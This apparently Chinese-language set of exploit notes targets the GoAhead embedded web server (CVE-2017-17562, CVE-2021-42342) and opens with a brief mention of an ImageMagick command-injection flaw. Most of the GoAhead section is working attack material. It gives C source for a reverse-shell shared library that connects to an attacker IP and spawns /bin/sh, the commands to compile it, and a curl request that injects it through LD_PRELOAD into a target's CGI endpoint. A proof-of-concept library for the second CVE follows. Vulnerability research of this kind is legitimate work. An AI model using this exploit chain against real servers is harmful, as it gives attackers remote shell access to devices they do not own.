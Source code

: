 ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

## GoAhead

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序

### CVE-2017-17562

* 漏洞利用

编译一个反弹shell的代码

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="172.16.217.185";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
  //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
  //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
  //execute /bin/sh to get a shell
    execve("/bin/sh", 0, 0);
}
```

```bash
gcc -shared -fPIC ./exp.c -o exp.so # 编译
curl -X POST --data-binary @payload.so "http://10.30.1.112:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
```

### CVE-2021-42342

poc1.c

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

